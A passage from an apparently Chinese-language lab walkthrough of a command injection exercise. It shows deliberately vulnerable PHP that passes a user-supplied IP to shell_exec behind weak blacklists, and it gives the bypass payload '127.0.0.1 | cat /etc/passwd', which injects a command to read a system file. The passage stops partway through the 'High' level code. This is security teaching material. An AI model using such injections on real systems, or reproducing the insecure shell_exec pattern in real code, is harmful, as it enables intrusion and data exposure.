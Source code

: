 關鍵程式碼解析==>使用黑名單(blacklist)過濾
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = $_REQUEST[ 'ip' ]; 

    // Set blacklist 設定黑名單
    $substitutions = array( 
        '&&' => '', 
        ';'  => '', 
    ); 

    // 使用黑名單(blacklist)過濾 Remove any of the charactars in the array (blacklist). 
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 

    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 

    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 

?> 
```

攻擊技法==>繞過黑名單(blacklist)過濾==>使用 | 
```
127.0.0.1 | cat /etc/passwd
```

### High

更完整的黑名單(blacklist)過濾
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = trim($_REQUEST[ 'ip' ]); 

    // Set blacklist 
    $substitutions = array( 
        '&'  => '', 
        ';'  => '', 
        '| ' => '', 
        '-'  => '', 
        '$'  => '', 
        '('  => '', 
        ')'  => '', 
        '`'  => '', 
        '||' => '', 
    ); 

    // Remove any of the charactars in the array (blacklist). 
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 

```